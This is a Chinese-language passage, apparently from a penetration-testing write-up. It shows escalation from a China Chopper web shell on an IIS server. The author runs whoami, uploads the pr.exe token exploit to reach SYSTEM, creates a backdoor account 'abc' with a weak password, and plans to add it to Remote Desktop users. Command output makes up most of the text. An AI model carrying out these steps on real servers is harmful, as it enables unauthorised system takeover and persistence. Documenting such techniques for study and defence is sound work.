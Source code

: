 之后再菜刀上执行 `whoami` ,有回显了。

```
C:\Inetpub\wwwroot\> whoami
nt authority\network service
```

可以看到是 `network service` 权限。

```bash
C:\Inetpub\wwwroot\> pr.exe
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Usage: xxoo.exe command 


C:\Inetpub\wwwroot\> pr.exe "whoami"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1676 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:whoami
nt authority\system


C:\Inetpub\wwwroot\> pr.exe "net user abc 123456 /add"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1676 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:net user abc 123456 /add
命令成功完成。



C:\Inetpub\wwwroot\> net user

\\ROOT-032E83FDAC 的用户帐户

-------------------------------------------------------------------------------
abc                      admin                    Administrator            
Guest                    IUSR_ROOT-032E83FDAC     IWAM_ROOT-032E83FDAC     
SUPPORT_388945a0         
命令成功完成。

```

上传 `pr.exe` ，执行 `pr.exe whoami` 可以看到已经是 system 权限了。

也可以进行添加用户的操作了。

在继续将 `abc` 用户添加到远程桌面组。
